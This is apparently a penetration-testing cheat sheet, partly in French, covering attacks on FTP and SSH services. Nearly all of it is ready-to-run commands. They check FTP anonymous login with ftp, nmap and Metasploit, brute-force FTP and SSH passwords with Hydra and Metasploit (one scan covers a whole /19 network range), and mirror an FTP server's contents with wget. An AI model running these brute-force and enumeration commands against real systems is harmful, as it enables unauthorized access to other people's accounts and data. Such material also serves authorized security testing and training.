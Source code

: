 

### More Tools

http://www.0daysecurity.com/penetration-testing/enumeration.html

.
.
=============================================================
## 21: Ftp

### Check anonymous access
````
# ftp 10.10.10.9
anonymous:anonymous
````

### Check anonymous access with NMap
````
# nmap --script=ftp-anon.nse 10.10.10.9
````

### Check anonymous access with Msfconsole 
````
# msfconsole -x “use auxiliary/scanner/ftp/anonymous; set ConnectTimeout=1; set FTPTimeout=1; set RHOSTS=xxx.xxx.xxx.0/19; run”
Note : for large network : set variable THREADS increase perf
````

### Brute force : Hydra
````
# hydra -t 1 -l admin -P ./password.lst -vV 10.10.10.9 ftp
````

### Brute force : Msfconsole 
````
> msfconsole -x “use auxiliary/scanner/ftp/ftp_login; set ConnectTimeout=1; set FTPTimeout=1; set RHOSTS=xxx.xxx.xxx.0/19; run” 
````    

### Mirror the site
Pour faire une copie en local de tout ce qui se trouve sur le ftp...
```
wget --mirror 'ftp://ftp_user:ftp_password@10.10.10.9'
```

. 
.
=============================================================
## 22: Ssh

### Brute force : Hydra
    # hydra -l admin             -P password_list.txt ssh://10.10.10.9
    # hydra -L username_list.txt -P password_list.txt ssh://10.10.10.9
    # hydra -l admin             -P password_list.txt ssh://10.10.10.9 -e nsr -V -t8 -f 
    